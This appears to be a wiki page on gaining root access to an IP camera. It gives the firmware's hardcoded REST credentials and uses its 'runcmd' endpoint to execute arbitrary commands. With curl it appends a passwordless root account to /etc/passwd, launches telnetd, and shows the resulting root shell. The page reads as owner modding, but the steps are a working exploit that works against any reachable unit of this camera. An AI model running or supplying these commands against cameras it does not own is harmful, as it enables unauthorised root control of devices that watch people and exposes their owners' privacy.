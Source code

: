 ### Starting telnetd

The camera original FW runs a REST server with authentication (user: PpStRoNg, password: #%&wL1@\*tU123zv).

One of the most interesting features is the "runcmd" function (replace \<your_cam_ip\> with your camera IP address):

Send request (note the \\ escaping the & for the password):

```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"ls"}'
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 0
```

Get output (json format):

```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 129
{
        "value":        "usr\nsys\netc\nmnt\nlib\nproc\nboot\nopt\nlinuxrc\nbin\ndev\ninit\nhome\nsbin\nnfsroot\nroot\ntmp\nvar\ndevinfo\n"
}
```

In the latest FW they have removed the "telnetd" binary, so you need to place it on the sdcard:
[telnetd.zip](https://github.com/ljalves/wiki/files/7875319/telnetd.zip)


To start the server, copy the telnetd binary to the sdcard and run:

```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"echo 'anyone::0:0:root:/:/bin/sh' >> /etc/passwd"}'
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"/mnt/mmc01/telnetd &"}'
```

At this point, you should be able to telnet to the camera:

```
$ telnet <your_cam_ip>
Trying <your_cam_ip>...
Connected to <your_cam_ip>.
Escape character is '^]'.
(none) login: anyone


BusyBox v1.26.2 (2019-04-16 05:35:27 PDT) built-in shell (ash)

/ #
```
